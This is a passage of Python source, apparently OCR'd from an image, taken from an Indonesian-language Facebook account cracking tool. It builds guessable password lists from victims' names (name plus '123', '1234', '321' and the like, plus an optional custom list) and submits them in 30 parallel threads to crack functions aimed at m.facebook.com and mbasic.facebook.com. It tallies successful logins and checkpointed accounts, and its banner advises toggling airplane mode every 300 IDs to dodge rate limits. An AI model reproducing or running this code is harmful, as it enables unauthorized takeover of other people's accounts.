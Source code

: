 	else:
	    sandine.append('no')
	passwordlist()
	
#----------[ BAGIAN-WORDLIST ]----------#	
def passwordlist():
	global prog,des
	print(f"{kun}╭────────────────────────────────────────────{puti}")
	print(f'{kun}└──[{puti} MAINKAN MODE PESAWAT SETIAP 300 IDZ ')
	print(f"{kun}─────────────────────────────────────────────{puti}")
	prog = Progress(TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'))
	des = prog.add_task('',total=len(id2))
	with prog:
		with tred(max_workers=30) as pemuda_tersakiti:
			for _gabutz_ster_ in id2:
				idf,namamu_ku_simpan = _gabutz_ster_.split('|')[0],_gabutz_ster_.split('|')[1].lower()
				frestile = namamu_ku_simpan.split(" ")[0]
				pwx = []
				if len(namamu_ku_simpan)<6:
					if len(frestile)<3:
						pass
					else:
						pwx.append(frestile+'123')
						pwx.append(frestile+'1234')
						pwx.append(frestile+'12345')
						pwx.append(frestile+'321')
						pwx.append(frestile+'123456')
				else:
					if len(frestile)<3:
						pwx.append(namamu_ku_simpan)
					else:
						pwx.append(namamu_ku_simpan)
						pwx.append(frestile+'123')
						pwx.append(frestile+'1234')
						pwx.append(frestile+'12345')
						pwx.append(frestile+'321')
						pwx.append(frestile+'123456')
				if 'ya' in sandine: 
					for sandi_kita in sandina:
						pwx.append(sandi_kita)
				else:pass
				if 'validate' in method:
				    pemuda_tersakiti.submit(crackvalidate,idf,pwx,'mbasic.facebook.com')
				elif 'reguler' in method:
				    pemuda_tersakiti.submit(crackreguler,idf,pwx,'m.facebook.com')
				elif 'asyinc' in method:
				    pemuda_tersakiti.submit(crackasyinc,idf,pwx,'m.facebook.com')
				else:
				    pemuda_tersakiti.submit(crackvalidate,idf,pwx,'m.facebook.com')
				    
	print(f"{kun}╭────────────────────────────────────────────{puti}")
	print(f'{kun}└──[{puti} OK {hijo}: %s'%(ok))
	print(f'{kun}└──[{puti} CP {kun}: %s'%(cp))
	print(f"{kun}─────────────────────────────────────────────{puti}")
	